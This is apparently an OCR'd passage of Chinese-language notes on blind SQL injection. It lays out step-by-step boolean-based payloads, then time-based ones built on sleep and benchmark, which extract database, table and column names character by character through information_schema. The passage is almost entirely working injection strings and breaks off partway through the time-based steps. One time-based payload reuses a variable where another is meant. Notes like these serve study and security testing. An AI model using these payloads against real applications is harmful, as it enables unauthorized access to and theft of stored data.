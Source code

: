   //select length(database())-->获取数据库长度
  //select asicc('a')-->将单一字符转化成ascii码
  //条件判断:select if(length(database())>0,1,0)
  ```

- ```sql
  //使用步骤
  
  ①获取数据库名长度
  1' and (length(database()))=n --+ //n为数据库名长度
  
  ②获取数据库名称
  1' and (ascii(substr(database(),n,1))=m) --+ //n为第几个位置，m为ascii码
  [65,122]
  
  ③获取表名长度
  1' and (length((select table_name from information_schema.tables where
  table_schema=database() limit 0,1))=m) --+
  //m为表名长度
  //获取表的个数
  1' and (select count(*) from information_schema.tables where
  table_schema=database())=m -- qwe //m为表的个数
  
  ④获取表名
  1' and (ascii(substr((select table_name from information_schema.tables where
  table_schema=database() limit 0,1),n,1))=m) --+ //n为表名的第几个位置，m为
  ascii范围[65,122]
  
  ⑤获取字段长度
  1' and (length((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1))=m) --+ //m为字段名长度
  //获取字段个数
  1' and ((select count(*) from information_schema.columns where
  table_schema=database() and table_name='表名')=m) --+ //m为表的个数
  
  ⑥获取字段名
  1' and (ascii(substr((select column_name from information_schema.columns where
  table_schema=database() and table_name='表名' limit 0,1),n,1))=m) --+ //n为字
  段名的位置，m为ascii范围[65,122]
  
  ⑦获取数据
  select 字段 from 表时间盲注
  ```

### 时间盲注

- ```sql
  //时间盲注
  //sleep()
  select if(1=1,sleep(10),0)
  
  //benchmark(arg1,arg2)-->arg1是执行次数,arg2是执行的表达式
  select if(1=1,benchmark(5000000,md5('abc')),0)
  ```

- ```sql
  //使用步骤
  
  ①获取数据库名长度
  1' and if((length(database()))>5,sleep(10),0) --+
  
  ②获取数据库名称
  1' and if(ascii(substr(database(),m,1))=m,sleep(10),0) --+ //65<=m<=122
  
  ③获取表名长度
  ```